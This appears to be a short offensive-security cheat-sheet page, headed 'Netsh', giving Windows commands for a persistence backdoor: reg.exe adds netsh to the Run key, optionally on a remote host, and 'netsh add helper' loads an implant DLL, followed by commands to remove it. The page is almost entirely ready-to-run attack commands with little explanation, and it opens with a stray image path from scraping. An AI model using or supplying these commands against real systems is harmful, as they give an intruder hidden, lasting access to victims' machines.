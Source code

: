 # Netsh

## Backdoor

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Firewall Rules Persist" /t REG_SZ /d "C:\Windows\System32\netsh" /f

C:\> netsh.exe add helper C:\path\to\implant.dll
```

Interactive prompt.

```
C:\> netsh.exe

netsh> add helper C:\path\to\implant.dll
```

## CleanUp

To cleanup the backdoor just specify the path to DLL implant.

```
C:\> netsh.exe delete helper C:\path\to\implant.dll
```

This can be done with an interactive prompt.

```
C:\> netsh.exe

netsh> delete helper C:\path\to\implant.dll
```

Delete the registry entry.

```
C:\> reg.exe delete "HKLM\SOFTWARE\Microsoft\NetSh" /v implant /f
```